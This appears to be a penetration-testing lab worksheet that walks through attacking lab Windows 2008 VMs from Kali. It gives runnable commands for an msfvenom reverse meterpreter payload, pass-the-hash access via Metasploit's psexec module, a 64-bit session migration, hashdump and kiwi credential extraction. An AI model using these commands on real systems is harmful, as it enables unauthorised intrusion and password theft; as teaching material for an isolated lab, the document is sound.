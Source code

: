 1. Download M1 from Google Drive

2. Start:

-Kali2

-2k8dc_a2

-2k8m2_a1


3. On the Kali2 host, set a static IP 192.168.168.110

ifconfig eth0 192.168.168.110

ifconfig eth0 netmask 255.255.255.0

4. Repeat last week’s step's to gain the password hash from M2 (refer to last week's notes). You'll want to grab the 32 characters on one side of the : and the 32 characters afterwards, such as aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9

5. Generating a reverse meterpreter payload within msfvenom (Kali 2):
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.168.110 lport=7477 -f exe -o /var/www/html/payload.exe

#Then don’t forget to start a listener and restart apache

6. Copy password and hash to a text file on the Kali box for reference.
7. Stop the VM 2k8m2_a1
8. Start the VM 2k8m1
9. Determine M1’s IP
10. Perform information gathering and enumeration against M1 with nmap
11. We know the password for M2's local Administrator, let's try it against M1.
12. With SMB open, what can we use to get onto M1?  The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for. #It was written by sysinternals and has been integrated within the framework.

#Within msfconsole:
use exploit/windows/smb/psexec
set rhost 192.168.168.101
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.168.110
set lport 7479
exploit

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
 
meterpreter > sysinfo
Computer        : M1
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
meterpreter > background

13. Move to a 64bit Meterpreter session:
msfconsole> use windows/local/payload_inject 
set payload windows/x64/meterpreter/reverse_tcp 
set session x
set lhost 192.168.168.110
exploit
meterpreter> hashdump

14. Now try getting the password in plaintext. If for some reason you don’t see Alice’s password within a 64 bit Meterpreter shell, you need to delete the M1 virtual and re-extract the zip file or redownload it from Google Drive. Remember, interactive logins are wiped from memory when the system restarts!
meterpreter> load kiwi
meterpreter> help
meterpreter> creds_all
